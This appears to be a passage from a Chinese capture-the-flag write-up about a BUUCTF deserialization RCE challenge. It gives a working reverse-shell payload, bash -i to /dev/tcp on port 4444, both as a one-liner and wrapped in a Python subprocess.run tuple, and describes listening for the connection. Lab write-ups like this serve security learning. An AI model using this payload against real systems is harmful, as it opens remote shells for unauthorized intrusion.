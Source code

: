 ![25-3.png](25-3.png)

### 解法 2: 反弹 shell

看到 RCE 漏洞自然想到反弹shell, 老规矩, 要在 buuctf 先下个 ovpn 配置文件打个洞:

~这里疯狂的踩坑~, 一开始的payload 是 `"bash -i >& /dev/tcp/10.88.15.149/4444 0>&1"`, 靶机一直显示反序列化成功, 但是主机就是收不到反弹 shell ,急死我了, 结果最后返璞归真发现必须要先用 `bash -c`, 嵌套一下就有了:

```python
return (subprocess.run, (["bash", "-c", "bash -i >& /dev/tcp/10.88.15.149/4444 0>&1"],), {"shell": True})
``` 

~说实话真的很无语~

这样在本地开个 4444 端口监听就能收到了:

![25-4.png](25-4.png)
